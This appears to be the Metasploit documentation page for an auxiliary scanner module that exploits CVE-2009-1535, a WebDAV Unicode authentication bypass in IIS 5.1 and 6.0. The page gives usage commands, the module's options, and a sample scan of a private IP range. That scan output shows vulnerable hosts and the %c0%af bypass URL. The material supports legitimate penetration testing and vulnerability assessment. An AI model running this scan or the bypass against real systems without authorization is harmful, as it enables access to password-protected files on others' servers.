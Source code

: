 ## Description

The WebDAV extension in Microsoft Internet Information Services (IIS) 5.1 and 6.0 allows remote attackers to bypass URI-based protection mechanisms, and list folders or read, create, or modify files, via a %c0%af (Unicode / character) at an arbitrary position in the URI, as demonstrated by inserting %c0%af into a "/protected/" initial pathname component to bypass the password protection on the protected\ folder, aka "IIS 5.1 and 6.0 WebDAV Authentication Bypass Vulnerability," a different vulnerability than CVE-2009-1122. More info about this vulnerability can be found [here](http://cve.mitre.org/cgi-bin/cvename.cgi?name=2009-1535).

CVE: CVE-2009-1535

## Verification Steps

1. Do: ```use auxiliary/scanner/http/dir_webdav_unicode_bypass```
2. Do: ```set RHOSTS [IP]```
3. Do: ```set THREADS [number of threads]```
4. Do: ```run```

You can keep the default DICTIONARY and HTTP404S dictionary settings, set our RHOSTS and THREADS values and let the module run.

## Scenarios

**Running the scanner**

```
msf > use auxiliary/scanner/http/dir_webdav_unicode_bypass
msf auxiliary(dir_webdav_unicode_bypass) > show options

Module options (auxiliary/scanner/http/dir_webdav_unicode_bypass):

   Name        Current Setting                                          Required  Description
   ----        ---------------                                          --------  -----------
   DICTIONARY  /usr/share/metasploit-framework/data/wmap/wmap_dirs.txt  no        Path of word dictionary to use
   ERROR_CODE  404                                                      yes       Error code for non existent directory
   HTTP404S    /usr/share/metasploit-framework/data/wmap/wmap_404s.txt  no        Path of 404 signatures to use
   PATH        /                                                        yes       The path to identify files
   Proxies                                                              no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS                                                               yes       The target address range or CIDR identifier
   RPORT       80                                                       yes       The target port (TCP)
   SSL         false                                                    no        Negotiate SSL/TLS for outgoing connections
   THREADS     1                                                        yes       The number of concurrent threads
   VHOST                                                                no        HTTP server virtual host

msf auxiliary(dir_webdav_unicode_bypass) > set RHOSTS 192.168.1.200-254
RHOSTS => 192.168.1.200-254
msf auxiliary(dir_webdav_unicode_bypass) > set THREADS 20
THREADS => 20
msf auxiliary(dir_webdav_unicode_bypass) > run

[*] Using code '404' as not found.
[*] Using code '404' as not found.
[*] Using code '404' as not found.
[*] Found protected folder http://192.168.1.211:80/admin/ 401 (192.168.1.211)
[*] 	Testing for unicode bypass in IIS6 with WebDAV enabled using PROPFIND request.
[*] Found protected folder http://192.168.1.223:80/phpmyadmin/ 401 (192.168.1.223)
[*] 	Testing for unicode bypass in IIS6 with WebDAV enabled using PROPFIND request.
[*] Found protected folder http://192.168.1.223:80/security/ 401 (192.168.1.223)
[*] 	Testing for unicode bypass in IIS6 with WebDAV enabled using PROPFIND request.
[*] Found protected folder http://192.168.1.204:80/printers/ 401 (192.168.1.204)
[*] 	Testing for unicode bypass in IIS6 with WebDAV enabled using PROPFIND request.
[*] 	Found vulnerable WebDAV Unicode bypass target http://192.168.1.204:80/%c0%afprinters/ 207 (192.168.1.204)
[*] Found protected folder http://192.168.1.203:80/printers/ 401 (192.168.1.203)
[*] 	Testing for unicode bypass in IIS6 with WebDAV enabled using PROPFIND request.
[*] 	Found vulnerable WebDAV Unicode bypass target http://192.168.1.203:80/%c0%afprinters/ 207 (192.168.1.203)
...snip...
[*] Scanned 55 of 55 hosts (100% complete)
[*] Auxiliary module execution completed
msf auxiliary(dir_webdav_unicode_bypass) >
```

The scan can find vulnerable servers. This vulnerability can potentially allow attacker to list, download, or even upload files to password protected folders.
